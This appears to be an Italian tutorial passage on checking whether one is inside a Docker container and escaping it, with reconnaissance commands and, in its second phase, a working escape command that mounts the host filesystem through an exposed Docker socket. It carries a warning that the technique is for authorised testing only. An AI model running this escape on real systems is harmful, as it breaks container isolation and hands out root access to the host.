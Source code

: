 
## 🧪 Fase 1: Controlli preliminari

Copia e incolla questi comandi nel terminale web del container:

```bash
# 1. Chi sei?
id

# 2. Dove sei?
pwd && hostname && uname -a

# 3. Sei dentro un container?
grep -qaE 'docker|lxc' /proc/1/cgroup && echo "✓ Sei in un container" || echo "✗ Non sembra un container"
[ -f /.dockerenv ] && echo "✓ /.dockerenv presente" || echo "✗ /.dockerenv mancante"

# 4. Verifica se hai accesso al Docker socket
ls -la /var/run/docker.sock

# 5. Prova ad accedere al demone Docker (rischioso)
docker ps

# 6. Hai lsblk? Mostra i dischi host
which lsblk && lsblk || echo "lsblk non disponibile"

# 7. Mount attuali
mount | grep -v "overlay"

# 8. Root mapping
cat /proc/self/uid_map
```

📌 **Annota l'output** oppure incollalo qui, così possiamo capire insieme se ci sono vie di fuga.

---

## 🧪 Fase 2: Tentativi di evasione (da fare solo a scopo didattico)

> ⚠️ **IMPORTANTE**: Non provare queste tecniche su ambienti di produzione o senza autorizzazione. Sono usate in test di penetrazione controllati.

### 1. Docker socket disponibile?

Se `/var/run/docker.sock` è montato nel container, puoi potenzialmente ottenere accesso all'host eseguendo:

```bash
docker run -v /:/host alpine chroot /host
```

⚠️ Questo comando **bypassa l’isolamento** e ti mette nella root dell’host!
